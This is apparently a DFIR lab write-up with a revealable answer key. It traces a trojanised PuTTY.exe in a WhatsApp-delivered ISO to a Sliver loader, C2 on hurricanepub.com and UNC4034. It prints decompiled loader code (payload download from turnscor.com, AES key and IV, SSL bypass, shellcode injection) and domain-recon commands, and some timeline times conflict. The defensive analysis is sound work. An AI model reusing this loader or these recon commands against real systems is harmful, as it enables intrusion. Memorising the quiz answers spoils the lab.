





## Scenario

While performing proactive threat hunting at a corporate customer, the threat hunting team escalated cyclic beaconing-like network activity originating from an endpoint. Investigate the provided forensic artefacts — ShellBags export, registry hive, and Sysmon/Security/System event logs — to identify the initial infection vector, trace attacker activity, reverse engineer the malicious payload, and attribute the activity to a known threat actor.

---

## Methodology

### Initial Triage — Zone Identifier

The investigation folder immediately surfaces a standout artefact: `megacorp-assessment.iso.Zone.Identifier`. This NTFS Alternate Data Stream is Windows' Mark of the Web (MotW) — automatically written when files are downloaded from the internet. Reading it confirms the ISO was downloaded via:

```
hxxps[://]web[.]whatsapp[.]com
```

Delivery via WhatsApp is a significant TTPs indicator — this is a known initial access vector for North Korean threat actors operating under the Operation Dream Job campaign, where targets are approached with fake job offers over social platforms.

### ISO Mount — ShellBags

Sysmon Event ID 11 (file creation) returns no results for the ISO mount — the virtual CD-ROM mount doesn't generate file creation events. ShellBags are the correct artefact for this, recording Explorer folder access even for temporary or unmounted drives.

The provided `2022-11-15170548_ShellBagsExplorerExport.csv` contains:

```
BagMRU\0\4,30,0,14,0,Desktop\My Computer\E:\assessment materials,Directory,
assessment materials,0,2022-11-15 02:15:52,2022-11-15 02:15:52,,2022-11-15 02:47:14,
2147483716,,1,2022-11-15 02:47:14,2022-11-15 02:47:14,FAT file system,True
```

This confirms:

- **Drive letter:** `E:` — the ISO was mounted to E:\
- **Folder accessed:** `assessment materials`
- **Time folder opened:** `2022-11-15 02:47:14`
- **FAT file system** — consistent with an ISO disc image

### UserAssist — Registry

UserAssist tracks applications launched via Windows Explorer, stored under:

```
HKEY_USERS\<SID>\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\UserAssist\{CEBFF5CD-ACE2-4F4F-9178-9926F41749EA}\Count
```

Values are ROT13 encoded. Searching the registry export for `R:\\` (ROT13 for `E:\`) surfaces:

```
"R:\\nffrffzrag zngrevnyf\\ChGGL.rkr"
```

ROT13 decoded: `E:\assessment materials\PuTTY.exe`



The malicious executable masquerades as the legitimate PuTTY SSH client — a trusted tool familiar to any IT or developer target, reducing suspicion.

**UserAssist Key:** `HKEY_USERS\S-1-5-21-1364132338-2865866078-2738210552-1000\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\UserAssist\{CEBFF5CD-ACE2-4F4F-9178-9926F41749EA}\Count`

**Executable:** `PuTTY.exe`

### Static Analysis — PEStudio

`PuTTY.exe` is extracted from the ISO and loaded into PEStudio. The Debug section reveals the PDB path — a compiler artefact showing where the developer's symbol file was stored during the build:

```
D:\a\_work\1\s\artifacts\obj\win-x86.Release\corehost\apphost\standalone\apphost.pdb
```

The `D:\a\_work\1\s\` path is an **Azure DevOps build agent** directory structure, indicating the payload was compiled via a CI/CD pipeline. This is an operational security tell.

MD5 hash obtained via PowerShell (confirmed against Sysmon Event ID 1 hash field):


```ps
Get-FileHash .\PuTTY.exe -Algorithm MD5
```

**MD5: `2B06DD8ADA98F0020AA20BEFA73DE197`**

### .NET Reverse Engineering — ILSpy

`PuTTY.exe` is a .NET assembly — loading it in ILSpy decompiles it back to near-original C# source. The assembly contains a single malicious namespace: `BackdoorLoader`.



The `Program` class exposes all hardcoded configuration values directly:


```csharp
private static readonly string AESKey = "D(G+KbPeShVmYq3t6v9y$B&E)H@McQf";
private static readonly string AESIV  = "8y/B?E(G+KbPeShV";
private static readonly string Url    = "http://turnscor.com/wp-includes/contact.php";
```

The `DownloadAndExecute()` method reveals the full loader chain:


```csharp
// Bypass SSL certificate validation
ServicePointManager.set_ServerCertificateValidationCallback(... => true);

// Download encrypted payload
byte[] ciphertext = new WebClient().DownloadData(Url);

// AES decrypt
ciphertext = Decrypt(ciphertext, AESKey, AESIV);

// Allocate executable memory and inject
VirtualAlloc(IntPtr.Zero, (uint)ciphertext.Length, 4096u, 64u);
Marshal.Copy(ciphertext, 0, intPtr, ciphertext.Length);
WaitForSingleObject(CreateThread(...), 4294967295u);
```

SSL certificate validation is explicitly disabled — allowing the C2 to use self-signed certificates without triggering errors. The payload is downloaded, AES-256-CBC decrypted in memory, and executed as shellcode without touching disk — a classic reflective in-memory loader pattern.

### C2 Framework Attribution — OSINT

The `DownloadAndExecute` + `VirtualAlloc` + `CreateThread` + AES decrypt pattern, combined with the specific key/IV format and the `BackdoorLoader` namespace, matches **Sliver C2** framework stager code published by BishopFox. Google dorking `sliver putty backdoorloader` confirms the code signature.

**C2 Framework: Sliver**

### C2 Beacon — Sysmon Event ID 3

Filtering Sysmon Event ID 3 (network connection) after the PuTTY.exe execution timestamp (`02:46:09`) surfaces the C2 callback:



```
UtcTime:             2022-11-15 02:49:07
Image:               C:\Windows\system32\cmd.exe
Protocol:            tcp
DestinationHostname: hurricanepub.com
DestinationPort:     443
DestinationPortName: https
```

The beacon originates from `cmd.exe` (PID 3340) — not PuTTY.exe — confirming the payload has already injected into cmd.exe by this point.

**C2: HTTPS, hurricanepub.com**

### Post-Exploitation — Sysmon Event ID 1

Sysmon process creation events reconstruct the full attacker command chain after the Sliver session was established:


**First command — user enumeration (`02:49:33`):**

```
whoami.exe /all
```

**Injection target:**

```
cmd.exe, PID 3340
```

**Interactive shell spawned from injected cmd.exe:**



```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoExit -Command [Console]::OutputEncoding=[Text.UTF8Encoding]::UTF8
```

The `-NoExit` flag and UTF-8 encoding setup is a Sliver interactive shell signature — keeps the session alive and handles output encoding for the C2 console.

**Domain reconnaissance (`02:53`):**

```
"C:\Windows\system32\nltest.exe" /domain_trusts
"C:\Windows\system32\nltest.exe" /dclist:blinkr.corp
"C:\Windows\system32\net.exe" group "Domain Admins"
"C:\Windows\system32\net1.exe" group "Domain Admins"
"C:\Windows\system32\cmdkey.exe" /list
```

The `nltest /dclist` confirms the internal domain: `blinkr.corp`. `net group "Domain Admins"` enumerates privileged accounts. `cmdkey /list` checks for stored credentials — suggesting the attacker was preparing for lateral movement.

### Threat Actor Attribution — UNC4034

Google dorking `sliver putty ISO whatsapp threat actor` leads to ManageEngine's reporting on Operation Dream Job:

> [North Korean Hackers Taint PuTTY SSH Client with Malware](https://www.manageengine.com/blog/general/north-korean-hackers-taint-putty-ssh-client-with-malware.html)

The full TTP overlap — ISO delivery via WhatsApp, trojanised PuTTY, Sliver C2, `hurricanepub.com` infrastructure — is attributed to **UNC4034**, a North Korean state-sponsored threat actor operating under the Operation Dream Job campaign. UNC4034 targets tech and defence sector employees with fake job recruitment lures.

**Threat Actor: UNC4034, North Korea**

---

## Attack Summary

|Time|Phase|Action|
|---|---|---|
|Pre-compromise|Delivery|`megacorp-assessment.iso` downloaded via WhatsApp (`hxxps[://]web[.]whatsapp[.]com`)|
|02:47:14|Execution|User opens `E:\assessment materials\` folder, double-clicks `PuTTY.exe`|
|02:46:09|Loader|PuTTY.exe (BackdoorLoader) downloads AES-encrypted Sliver payload from `turnscor[.]com`|
|02:46:09|Injection|Payload decrypted in memory, injected into `cmd.exe` (PID 3340)|
|02:49:07|C2|Sliver beacon established to `hurricanepub[.]com:443` over HTTPS|
|02:49:33|Recon|`whoami.exe /all` — user privilege enumeration|
|~02:49|Shell|Interactive PowerShell spawned via Sliver shell module|
|02:53|Recon|`nltest /dclist:blinkr.corp` — domain controller enumeration|
|02:53|Recon|`net group "Domain Admins"` — privileged account enumeration|
|02:53|Recon|`cmdkey /list` — stored credential enumeration|

---

## IOCs

|Type|Value|
|---|---|
|File|megacorp-assessment.iso|
|File|PuTTY.exe (trojanised)|
|MD5|2B06DD8ADA98F0020AA20BEFA73DE197|
|Download Source|hxxps[://]web[.]whatsapp[.]com|
|Payload URL|hxxp[://]turnscor[.]com/wp-includes/contact.php|
|C2 Domain|hurricanepub[.]com|
|C2 Protocol|HTTPS (port 443)|
|AES Key|D(G+KbPeShVmYq3t6v9y$B&E)H@McQf|
|AES IV|8y/B?E(G+KbPeShV|
|PDB Path|D:\a_work\1\s\artifacts\obj\win-x86.Release\corehost\apphost\standalone\apphost.pdb|
|Mount Drive|E:\|
|Victim User|BLINKR-CORP\gregory.hamilton|
|Internal Domain|blinkr.corp|
|Threat Actor|UNC4034|

---

## MITRE ATT&CK

|Technique|ID|Description|
|---|---|---|
|Phishing: Spearphishing via Service|T1566.001|ISO delivered via WhatsApp as part of fake job offer lure|
|User Execution: Malicious File|T1204.002|Victim double-clicked trojanised PuTTY.exe from mounted ISO|
|Command and Scripting: PowerShell|T1059.001|Interactive PowerShell shell spawned by Sliver|
|Process Injection|T1055|Sliver payload injected into cmd.exe (PID 3340)|
|Application Layer Protocol: Web Protocols|T1071.001|C2 beacon over HTTPS to hurricanepub.com|
|System Information Discovery|T1082|whoami.exe /all post-exploitation enumeration|
|Permission Groups Discovery: Domain Groups|T1069.002|net group "Domain Admins" /domain|
|Domain Trust Discovery|T1482|nltest /dclist:blinkr.corp|
|Credentials from Password Stores|T1555|cmdkey /list — stored credential enumeration|
|Obfuscated Files or Information|T1027|AES-256-CBC encrypted payload, in-memory execution, no disk write|
|Masquerading|T1036|PuTTY.exe used as delivery vehicle — legitimate tool branding|

---

## Defender Takeaways

**Zone Identifier / Mark of the Web monitoring** — The ISO's Zone.Identifier ADS confirmed the WhatsApp download origin immediately. Alerting on ISO/IMG files with MotW from social media platforms (WhatsApp, LinkedIn, Telegram) is an effective early warning for this delivery pattern, which is heavily favoured by UNC4034/Lazarus-adjacent actors.

**UserAssist ROT13 decoding** — UserAssist is frequently overlooked as a forensic source because the ROT13 encoding obscures values at a glance. CyberChef ROT13 or Registry Explorer's auto-decode makes this trivial. Any executable path on a removable/mounted drive (`E:\`, `F:\`) in UserAssist warrants immediate investigation.

**In-memory loader detection** — The payload never wrote the decrypted Sliver implant to disk. Traditional file-based AV had no opportunity to detect it. Memory scanning (e.g. volatility `malfind`, EDR with memory scanning capability) and behavioural detection of `VirtualAlloc` + `CreateThread` API call sequences from unexpected processes are the effective controls here.

**SSL certificate validation bypass** — The explicit `ServerCertificateValidationCallback => true` override is a detectable code pattern in .NET malware and a strong indicator of C2 communication design. TLS inspection on egress with certificate validation enforcement would have flagged the self-signed cert on `hurricanepub.com`.

**Sliver C2 JA3 fingerprinting** — Sliver has known JA3/JA3S TLS fingerprints. Adding these to network detection rules provides durable coverage even when the C2 domain rotates, since the TLS client fingerprint is tied to the implant binary.

---

## References

- [ManageEngine — North Korean Hackers Taint PuTTY SSH Client with Malware (UNC4034 / Operation Dream Job)](https://www.manageengine.com/blog/general/north-korean-hackers-taint-putty-ssh-client-with-malware.html)


---

<div class="qa-item"> <div class="qa-question-text">What was the name of the first malicious file downloaded, and where was it downloaded from? (Format: Filename.extension, https://subdomain.domain.tld)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">megacorp-assessment ,https://web.whatsapp.com</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the drive letter that the user mounted the malicious disk image to, and what time did the user open the folder within the malicious disk image? (Format: Drive Letter, YYYY-MM-DD HH-MM-SS)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">E, 2022-11-15 02-47-14</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the UserAssist key and text corresponding to the execution of the malicious executable found within the registry? (Use the executable name exactly as it appears in the UserAssist Key) (Format: Full path of UserAssist Key, executable name)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">HKEY_USERS\S-1-5-21-1364132338-2865866078-2738210552-1000\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\UserAssist\{CEBFF5CD-ACE2-4F4F-9178-9926F41749EA}\Count, putty.exe</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the MD5 hash of the malicious executable contained within the malicious disk image? (Format: MD5Hash)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">2B06DD8ADA98F0020AA20BEFA73DE197</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the PDB Path stored within the malicious executable? (Format: Drive:\Path\To\Symbols.pdb)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">D:\a\_work\1\s\artifacts\obj\win-x86.Release\corehost\apphost\standalone\apphost.pdb</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">The malicious executable is a decryptor and in memory loader for an encrypted backdoor payload. What is the URL it downloads the encrypted payload from, the AES encryption key and initialization vector (IV)? (Format: https://domain.tld/resource, AES key, AES IV)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">http://turnscor.com/wp-includes/contact.php, D(G+KbPeShVmYq3t6v9y$B&E)H@McQf, 8y/B?E(G+KbPeShV</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What was the C2 framework from which this in memory loader code was taken? (Hint: use OSINT) (Format: C2 Framework)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">sliver</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the protocol and domain used for the backdoor’s C2 communication? (Format: Network protocol, FQDN)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">HTTPS, hurricanepub.com</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the command line of the first process executed by the threat actor through the backdoor session? (Copy and paste the full command line as it appears in the log) (Format: binary.exe arguments)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">whoami.exe /all</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What process name and PID does the malware inject itself into? (Format: Process name, PID)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">cmd.exe, 3340</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">After injecting into the new process, the threat actor spawns an interactive shell for the host. What is the command line for this interactive shell? (Copy and paste the full command line as it appears in the log) (Format: C:\Path\To\Binary.exe arguments)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoExit -Command [Console]::OutputEncoding=[Text.UTF8Encoding]::UTF8</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the command-line used for listing the domain controllers in the environment, and what Active Directory security group was queried? (Copy and paste the full command line as it appears in the log) (Format: Command line, security group name)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">"C:\Windows\system32\nltest.exe" /dclist:blinkr.corp, Domain Admins</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>


<div class="qa-item"> <div class="qa-question-text">Based on open-source intelligence, are there any known threat actors whose techniques and infrastructure overlap with the activity observed on this host? If so, what is the name of this group and which nation-state nexus do they belong to? (Hint: Google dorks are your friend) (Format: Threat group name, Country)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">UNC4034, North Korea</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

